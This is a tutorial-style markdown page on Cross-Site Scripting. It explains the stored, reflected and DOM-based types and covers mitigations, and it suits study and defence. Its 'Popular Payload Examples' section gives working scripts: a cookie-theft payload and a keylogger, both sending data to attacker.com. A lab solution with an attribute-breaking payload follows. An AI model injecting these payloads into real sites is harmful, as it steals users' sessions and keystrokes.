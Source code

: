 # Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. XSS attacks occur when an attacker can inject malicious scripts into web pages viewed by other users. These scripts can hijack user sessions, deface websites, or redirect users to malicious sites.

## Types of XSS
1. **Stored XSS**: The malicious script is permanently stored on the target server, such as in a database, and is served to users when they request the stored information.
2. **Reflected XSS**: The malicious script is reflected off a web server, such as in an error message or search result, and is sent to the user's browser immediately.
3. **DOM-based XSS**: The vulnerability is within the client-side code rather than the server-side, allowing manipulation of the DOM environment in the victim's browser.

## Basic Theory
XSS vulnerabilities arise due to improper validation or escaping of user input. To prevent XSS:
- **Input Validation**: Validate and sanitize all user inputs.
- **Output Encoding**: Encode data before rendering it on the page.
- **Content Security Policy (CSP)**: Implement CSP to restrict sources of executable scripts.

## Popular Payload Examples
1. **Basic Alert**
    ```html
    <script>alert('XSS');</script>
    ```

2. **Cookie Theft**
    ```html
    <script>
      var img = new Image();
      img.src = "http://attacker.com/steal?cookie=" + document.cookie;
    </script>
    ```

3. **Keylogger**
    ```html
    <script>
      document.onkeypress = function(e) {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "http://attacker.com/log?key=" + e.key, true);
        xhr.send();
      };
    </script>
    ```

## Mitigation Techniques
- **Escape Untrusted Data**: Ensure that any untrusted data is properly escaped before it is rendered in the browser.
- **Use Secure APIs**: Prefer secure APIs that automatically escape data.
- **HTTPOnly Cookies**: Use HTTPOnly flag for cookies to prevent access via JavaScript.

Regularly audit your code, stay updated with the latest security practices, and educate your team about common vulnerabilities and their prevention.

## Resources
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN Web Docs on XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)

## Lab Examples
[Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function. 

**Solution:**
```
"><script>alert('hacked');</script>
```
